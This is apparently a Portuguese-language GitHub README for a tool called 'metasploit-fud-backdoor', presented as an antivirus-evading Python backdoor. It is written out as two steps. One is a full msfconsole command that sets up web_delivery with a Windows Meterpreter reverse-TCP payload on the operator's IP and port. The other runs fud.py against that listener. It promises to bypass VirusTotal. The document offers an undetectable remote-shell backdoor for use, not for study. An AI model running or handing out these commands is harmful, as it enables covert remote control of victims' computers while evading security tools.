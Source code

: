 # metasploit-fud-backdoor
backdoor em python pelo metasploit 100% fud

### versão
versão do python: 3

### passo 1
sudo msfconsole -q -x "use multi/script/web_delivery; set lhost SEU_IP; set lport PORTA_TCP; set SRVPORT 8080; set uripath index.php; set target 2; set payload windows/meterpreter/reverse_tcp; exploit -j; clear; clear; clear"

### passo 2
python fud.py SEU_IP 8080

### informação
bypassing virus total

### screenshot
![](https://image.prntscr.com/image/FzbeC9FaQ3yfsJeSTgNoEg.png)
